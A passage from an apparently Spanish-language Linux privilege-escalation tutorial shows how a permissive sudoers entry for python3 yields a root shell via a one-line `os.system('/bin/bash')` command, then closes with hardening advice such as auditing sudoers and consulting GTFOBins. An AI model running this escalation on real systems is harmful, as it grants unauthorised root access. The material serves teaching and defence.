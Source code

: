 **Explicación:**  
Permitimos ejecutar Python como superusuario. Python tiene capacidad para abrir shells, manipular archivos del sistema y más.

**Acción (como Metahumo):**

```bash
su Metahumo
sudo python3 -c 'import os; os.system("/bin/bash")'
```

**Resultado:**

```bash
root@<hostname>:/home/Metahumo#
```

**Explicación:**  
Aprovechamos Python para lanzar una shell (`bash`) con permisos de superusuario, usando la función `os.system`.

---

## 12. Conclusiones generales

Estos ejemplos demuestran cómo ciertos binarios que pueden parecer inofensivos son, en realidad, **vectores críticos de escalada de privilegios** si se incluyen de forma permisiva en el archivo `/etc/sudoers`.

**Recomendaciones:**

- No permitir el uso de intérpretes (`python`, `perl`) o editores avanzados (`vim`, `less`) vía `sudo` salvo casos totalmente controlados.
    
- Usar herramientas como [GTFOBins](https://gtfobins.github.io/) para conocer qué binarios pueden ser explotados bajo sudo.
    
- Auditar frecuentemente el archivo sudoers y sus derivados.
    
- Implementar mecanismos de detección y alerta de abuso de `sudo`.
    

---

